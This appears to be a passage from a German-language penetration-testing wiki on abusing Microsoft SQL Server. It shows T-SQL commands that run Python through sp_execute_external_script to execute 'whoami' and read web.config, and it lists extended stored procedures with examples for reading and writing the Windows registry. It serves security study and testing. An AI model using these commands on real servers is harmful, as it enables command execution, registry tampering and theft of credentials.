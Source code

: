 MSSQL könnte es Ihnen ermöglichen, **Skripte in Python und/oder R** auszuführen. Dieser Code wird von einem **anderen Benutzer** ausgeführt als dem, der **xp\_cmdshell** verwendet, um Befehle auszuführen.

Beispiel, das versucht, ein **'R'** _"Hellow World!"_ **auszuführen, funktioniert nicht**:

![](<../../.gitbook/assets/image (393).png>)

Beispiel, das konfiguriertes Python verwendet, um mehrere Aktionen durchzuführen:
```sql
# Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```
### Registry lesen

Microsoft SQL Server bietet **mehrere erweiterte gespeicherte Prozeduren**, die es Ihnen ermöglichen, nicht nur mit dem Netzwerk, sondern auch mit dem Dateisystem und sogar der [**Windows-Registrierung**](https://blog.waynesheffield.com/wayne/archive/2017/08/working-registry-sql-server/)** zu interagieren:**

| **Regulär**                  | **Instanzbewusst**                     |
| ---------------------------- | -------------------------------------- |
| sys.xp\_regread              | sys.xp\_instance\_regread              |
| sys.xp\_regenumvalues        | sys.xp\_instance\_regenumvalues        |
| sys.xp\_regenumkeys          | sys.xp\_instance\_regenumkeys          |
| sys.xp\_regwrite             | sys.xp\_instance\_regwrite             |
| sys.xp\_regdeletevalue       | sys.xp\_instance\_regdeletevalue       |
| sys.xp\_regdeletekey         | sys.xp\_instance\_regdeletekey         |
| sys.xp\_regaddmultistring    | sys.xp\_instance\_regaddmultistring    |
| sys.xp\_regremovemultistring | sys.xp\_instance\_regremovemultistring |
```sql
# Example read registry
EXECUTE master.sys.xp_regread 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\Microsoft SQL Server\MSSQL12.SQL2014\SQLServerAgent', 'WorkingDirectory';
# Example write and then read registry
EXECUTE master.sys.xp_instance_regwrite 'HKEY_LOCAL_MACHINE', 'Software\Microsoft\MSSQLSERVER\SQLServerAgent\MyNewKey', 'MyNewValue', 'REG_SZ', 'Now you see me!';
```